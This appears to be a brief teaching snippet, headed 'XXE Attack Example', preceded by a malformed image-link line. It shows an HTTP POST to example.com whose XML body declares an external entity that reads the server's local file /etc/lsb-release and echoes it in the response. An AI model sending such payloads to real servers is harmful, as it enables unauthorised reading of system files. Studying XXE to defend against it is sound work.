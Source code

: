 XXE Attack Example
``````xml
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
``````
